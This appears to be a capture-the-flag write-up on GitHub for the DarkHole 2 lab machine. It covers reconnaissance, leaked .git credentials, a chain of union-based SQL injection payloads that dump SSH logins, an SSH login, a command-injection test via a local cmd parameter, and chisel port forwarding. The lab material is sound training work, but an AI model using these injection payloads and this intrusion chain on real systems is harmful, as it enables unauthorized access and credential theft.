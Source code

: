 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/104873e8-46e1-4264-a1e7-51389bc48a1e"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/de8e5575-0453-497e-80f7-9467daf35c28)

```bash
ping -c 1 192.168.1.210
```
![image](https://github.com/user-attachments/assets/88319795-5f50-45a4-b7e0-4a89fca4c012)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.210 -oG allPorts
```
![image](https://github.com/user-attachments/assets/caab3713-32f9-45cb-9347-4540c21e16df)

```bash
nmap -sCV -p22,80 192.168.1.210 -oN targeted
```
![image](https://github.com/user-attachments/assets/9d7977fb-b01e-4c8f-9237-8b3dcb959f48)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 22</h2>

![image](https://github.com/user-attachments/assets/fb033fd8-2155-4cbd-8e52-9f1a9a42d500)
![image](https://github.com/user-attachments/assets/df1662e7-8ff5-4ea0-9eb2-bd2c1f0f207f)
![image](https://github.com/user-attachments/assets/e7765820-701f-4ab2-bba6-afb011e37593)<br>
<br>
#### **This machine is a Ubuntu Focal**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/d42310cb-ab4b-46fe-8bf3-6754bf48e422)

``CTRL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/94f0d78a-3a61-48f3-b968-07132e49bc7a)
![image](https://github.com/user-attachments/assets/87d49f77-cc5a-4aa5-9daf-eb9186bd72ed)
![image](https://github.com/user-attachments/assets/c8ee583d-de18-4adf-ba69-4fabeb1977e3)<br>
<br>
#### **We found a web login**

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.210/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/dbad34e3-bd2f-4f82-922e-97e197aca627)
![image](https://github.com/user-attachments/assets/9821288a-4bc4-40c7-a197-5ee7129a8fde)
![image](https://github.com/user-attachments/assets/8660a7ea-4ec9-4510-87c1-4c3c5c0d98dd)
![image](https://github.com/user-attachments/assets/3216459f-0e6e-4f5b-a488-d0def89b5a41)
![image](https://github.com/user-attachments/assets/2d8a2c67-dfc0-4bde-bfc9-61546d49ea94)
![image](https://github.com/user-attachments/assets/e9754472-778d-4b38-aa5f-35641fe76548)

```bash
whatweb "http://192.168.1.210"
```
![image](https://github.com/user-attachments/assets/9897106f-25dd-4fda-8a3e-f2b6e8d2ef01)

### **.git**
![image](https://github.com/user-attachments/assets/75deb6fc-8d73-4be7-9e1b-afd111bdf1e7)
![image](https://github.com/user-attachments/assets/9a9828e5-b238-478c-8741-10275f16d3e8)
<br>
<br>
#### **Download content for analysis**
```bash
wget -r http://192.168.1.172/.git/
```
![image](https://github.com/user-attachments/assets/d7394a20-d0f7-4b50-af99-eecdee7674bb)

#### **Checking gitlog of the repository**
```bash
git log
```
![image](https://github.com/user-attachments/assets/967b793f-91c8-4ca7-a92a-8783711c90d6)

```bash
git log --oneline
```
![image](https://github.com/user-attachments/assets/7285dea1-a75d-4c84-9816-e2779fd60645)

```bash
git show a4d900a
```
![image](https://github.com/user-attachments/assets/d01f05b0-960f-492b-aa69-978889012c18)

#### **We finally have credentials**
User:    lush@admin.com<br>
Paswwd:  321

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

![image](https://github.com/user-attachments/assets/62bbcd1d-acd3-403d-bd08-3df3892d5cfe)
![image](https://github.com/user-attachments/assets/3be015c2-096e-4a02-a50e-eb939a87385b)
![image](https://github.com/user-attachments/assets/34a7d54f-cc17-4c3e-b134-e38095dd36e4)
![image](https://github.com/user-attachments/assets/c507dd9a-8222-4133-95ff-066ad61d0ef3)
![image](https://github.com/user-attachments/assets/c71a50cc-aa9c-4def-b4d4-91e10c90929b)

#### **intercepting with burp, to see how everything goes from behind**
```bash
burpsuite &> /dev/null & disown
```
![image](https://github.com/user-attachments/assets/6a77d54a-b163-436c-814f-960d9682f3f9)

#### **sending the captured information to the repeter**
``CTRL+R``<br>

![image](https://github.com/user-attachments/assets/d12cb967-dce8-4099-9fce-1f0861d767b7)
![image](https://github.com/user-attachments/assets/53c4bd44-77bc-480e-8af0-3954ba11a31a)

### **Showing database**
```SQLI
1' order by 6-- - 
```
![image](https://github.com/user-attachments/assets/1b46970d-4b91-416d-98db-7fff663a2d60)

```SQLI
2' union select 1,2,3,4,5,6-- -
```
![image](https://github.com/user-attachments/assets/3cf1d124-971d-48b7-8017-fe47deffd766)
![image](https://github.com/user-attachments/assets/52c76219-f1b9-4b99-be01-afda0eda509f)

```SQLI
2' union select 1,2,database(),4,5,6-- -
```
![image](https://github.com/user-attachments/assets/ffd5caa6-d457-4ee0-a720-2b5972fa8382)
![image](https://github.com/user-attachments/assets/3e4561d3-b8df-4c06-86a2-4d1b2fd9e999)

```SQLI
2' union select 1,2,schema_name,4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/bca85749-2efc-4ca5-8704-a07b3f55ba28)
![image](https://github.com/user-attachments/assets/b0eb9738-d9df-4578-b231-926d3325b115)

```SQLI
2' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
```
![image](https://github.com/user-attachments/assets/b45d280e-405c-467b-8ede-ad661c8e9a32)
![image](https://github.com/user-attachments/assets/add53760-26fd-4658-ba8b-2f8606805e2e)

### **Showing Tables**

```SQLI
2' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -
```
![image](https://github.com/user-attachments/assets/e0c9fafb-2b30-44a4-8e86-a1e07970a733)
![image](https://github.com/user-attachments/assets/24a07cab-0683-4896-a76a-3d7cbc7a32c9)

### **Showing Columns**

```SQLI
2' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name="ssh"-- -
```
![image](https://github.com/user-attachments/assets/6aac1ac1-bbfb-42a9-af96-1d3a18d82021)
![image](https://github.com/user-attachments/assets/11edc06f-1aa0-495e-a3c1-d4e162e49484)

### **Showing Content**
```SQLI
2' union select 1,2,group_concat(user,0x3a,pass),4,5,6 from ssh-- -
```
![image](https://github.com/user-attachments/assets/52cdcd81-f6bf-42cd-9f54-406291011e21)
![image](https://github.com/user-attachments/assets/06f014b1-d76b-43d4-a9d1-96481042e295)

User:    jehad<br>
Passwd:  fool

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 22</h2>

```bash
ssh jehad@192.168.1.210
```
![image](https://github.com/user-attachments/assets/bacade7e-5272-4a69-8ae2-8369d12ad233)

### **TTY treatment**
```bash
reset xterm
export TERM=xterm
export SHELL=bash
```
![image](https://github.com/user-attachments/assets/7542a396-ea4c-4f30-aa72-6af74444a298)

```bash
cat .bash_history
```
![image](https://github.com/user-attachments/assets/23c718d1-d55a-4f23-bf80-6eda02664205)

```bash
netstat -nat
```
![image](https://github.com/user-attachments/assets/949ada36-6c76-4a97-a8c6-4da4d7babddf)

```bash
ps -faux | grep 9999
```
![image](https://github.com/user-attachments/assets/73a1d181-2f51-414b-82f6-6440353bf93f)

```bash
cat index.php
```
![image](https://github.com/user-attachments/assets/d3c6ee07-90ba-4745-99c4-e58d0d2ed592)

```bash
curl "http://localhost:9999/index.php?cmd=whoami" -X GET; echo
```
![image](https://github.com/user-attachments/assets/06e3a4e0-f8a0-4555-b951-e134a1c07a2e)

#### **We can see that there is an open port on the victim machine that we do not have access to from our attacking machine.**
```bash
nmap -p9999 --open -T5 -v 192.168.1.176
```
![image](https://github.com/user-attachments/assets/7e132b47-e3b1-42d2-97c9-79f2fd553ba3)

#### **By using a tool we are going to make our PORT 9999 in the PORT 9999 of the victim machine to gain access and discover more things.**
[chisel](https://github.com/jpillora/chisel)
![image](https://github.com/user-attachments/assets/bafec1d9-00fc-42ae-9724-d284fc1d8105)
![image](https://github.com/user-attachments/assets/a323543d-e20b-418f-b005-1b320f786f37)
![image](https://github.com/user-attachments/assets/06d525ce-42a8-4814-a1c5-bc8f53d3a1e3)










